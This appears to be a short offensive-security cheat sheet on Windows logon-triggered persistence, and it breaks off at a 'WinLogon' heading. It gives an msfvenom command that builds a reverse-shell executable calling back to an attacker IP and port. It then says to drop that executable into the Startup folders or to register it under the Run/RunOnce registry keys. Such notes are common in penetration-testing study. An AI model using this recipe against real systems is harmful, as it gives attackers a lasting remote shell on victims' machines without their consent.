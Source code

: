 # Windows Persistence - Logon Triggered

## Startup Folder

Each user has a:
- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
To force all users to run a payload user: 
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f exe -o revshell.exe
```
Transfer to target machine and copy to one of the above locations.

## Run / RunOnce
Instead of a directory you can modify the registery entries to specify application to run at logon:
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

`Right-Click -> New -> Expandable String Value`

## WinLogon